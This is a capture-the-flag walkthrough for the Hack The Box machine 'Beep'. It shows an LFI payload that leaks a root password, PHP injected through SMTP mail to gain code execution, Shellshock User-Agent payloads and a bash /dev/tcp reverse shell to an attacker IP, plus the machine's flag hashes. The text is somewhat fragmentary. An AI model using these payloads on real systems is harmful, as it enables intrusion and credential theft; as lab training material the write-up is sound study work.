- nmap
- http
- rooting box through LFI turned to RCE
- graph.php LFI
- /vtigercrm/graph.php?current_language exploit
- more LFI exploit info gathering w/ burp
- foothold: turning LFI to RCE through SMTP php code embedded email
- rooting box w/ shellshock
- rooting box w/ RCE searchsploit
- user/root
- lessons learned
beep


nmap

http

gobuster
gobuster dir -u https://10.10.10.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -kafter checking each of the directories, there is not much that can help us besides the /admin directory that leaks, feel free to navigate to each page at your own discretion
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url: https://10.10.10.7
[+] Threads: 10
[+] Wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes: 200,204,301,302,307,401,403
[+] User Agent: gobuster/3.0.1
[+] Timeout: 10s
===============================================================
2020/02/29 19:18:46 Starting gobuster
===============================================================
/images (Status: 301)
/help (Status: 301)
/themes (Status: 301)
/modules (Status: 301)
/mail (Status: 301)
/admin (Status: 301)
/static (Status: 301)
/lang (Status: 301)
/var (Status: 301)
/panel (Status: 301)
/libs (Status: 301)
/recordings (Status: 301)
/configs (Status: 301)
/vtigercrm (Status: 301)
===============================================================
2020/02/29 20:06:08 Finished
===============================================================
/help
this big convoluted dashboard page looks like it could have some interesting finds in it but it is more of a rabbit hole to waste our time and energy
beep backup date 2010
/admin
unfortunately we can't access admin/config's page but we see that the box is using FreePBX version 2.8.1.4!

/recordings
another potential brute force candidate but we don't know enough information on what the login might be, move on
/vtigercrm
another potential brute force candidate but we don't know enough information on what the login might be, move on
rooting box through LFI turned to RCE
Since the webpage runs
lets see if anything from searchsploit comes up


we know the box runs on
 so the RCE exploit also checks out
so the RCE exploit also checks outlocal file inclusion seems interesting, plus we know FreePBX is on version 2.8.1.4
graph.php LFI
Lets take a look at the exploit code:we see the LFI Exploit is located at the URL: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
also we know beep uses vtigercrm so lets try it


/vtigercrm/graph.php?current_language exploit
/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
pw
fortunately enough, the password for root is located within this LFI and is jEhdIekWmdjE, but we'll explore alternatives to rooting this machinessh root
root pw jEhdIekWmdjE works from a listed password off of the amportal.conf file we saw using the LFI expoit from searchsploit
more LFI exploit info gathering w/ burp
we can enumerate more info on the box using our LFI exploit:we can view other sensitive files by substituting other files where /etc/amportal.conf is right now...

/etc/passwd

/etc/passwd users
heres the accounts that are not “nologin”root:x:0:0:root:/root:/bin/bash
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
news:x:9:13:news:/etc/news:
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
cyrus:x:76:12:Cyrus IMAP Server:/var/lib/imap:/bin/bash
asterisk:x:100:101:Asterisk VoIP PBX:/var/lib/asterisk:/bin/bash
spamfilter:x:500:500::/home/spamfilter:/bin/bash
fanis:x:501:501::/home/fanis:/bin/bash
we can tell which accounts are real users by “bin/bash” and service accounts by “nologin”
given that users are:
/proc/self/status
we are running as Uid 100 and Gid 101, we see the user “Asterick” is assigned this Uid and Gid as well so we are logged in currently as himwe're leaking the
 directory from the box
directory from the box

/var/lib/asterisk/.ssh/id_rsa
If we can exfiltrate Asterick's private key we can have an easy win on the box so its always worth trying out
no luck, lets move on
leaking more sensitive files with burp suite's intruder
we can use intruder to potentially enumerate more important file from this LFI that may be worth looking into:
fuzzdb github
we're going to use fuzzdb to find a list of file directories we can fuzz into our LFI input to enumerate
LFI-LogFileCheck.txt
Bingo! burp payload has a great list of default log and sensitive file locations
fuzzdb LFI checklist
now to paste the into the burp suite intruder payload options list and start the attack
into the burp suite intruder payload options list and start the attack
results
not much luck besides /etc/passwd based off the length of the responses being 232
232 char length invalid response reads:

foothold: turning LFI to RCE through SMTP php code embedded email
The server was listening over SMTP, so lets telnet to it: \
\server responds with an ENHANCED smtp postfix, so we need to send an ENHANCED hello and identify who I am (arbitrary name is fine)
 \
\from here lets check/verify asterisk is a valid user (code 252)

server responds it is
as apposed to this (code 550)

php code injection into email
now that we injected a php code execution script to asterisk through an SMTP email, only thing left to do is to test if it worked:
burp payload test
the /var/mail/asterisk folder should be where the contents of our email is located on the server:code execution
lets set the ippsec variable to whoami and see what we get asterick in the server response
Success!
swap to post request for reverse shell
Code pre URL encode:
After: Ctrl+U to URL encode

nc listener
Success! We have a shell

sudo -l
asterisk can sudo on /etc/passwd
alternative approach we can look into
rooting box w/ shellshock
Based on the date the box was created, it may be susceptable to a shell shock exploit
burp /bin/echo
User-Agent: () { :; }; /bin/echo “helloworld”does not output on the server resonse but that doesn't factor the shellshock vuln out!, lets try sleep next


before we move on take note of the bytes returned and the time it took to respond

burp sleep
SUCCESS, we see the server response time took just over 10 seconds to complete


shellshock reverse shell
bash -i >& /dev/tcp/10.10.14.62/8081 0>&1 to connect back to our attacking machine:

listener
wait for it... Success! we have root

rooting box w/ RCE searchsploit
Lets go back to searchsploit and look up the RCE script


the code shows there is a vulnerability within interactive nmap by issuing '!sh'
lets give it a shot from our shell...
priv esc w/ sudo nmap --interactive privesc
simple initiation of nmap --interactive with sudo gives a shell that has root privileges!
user/root

aeff3def0c765c2677b94715cffa73ac

d88e006123842106982acce0aaf453f0
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/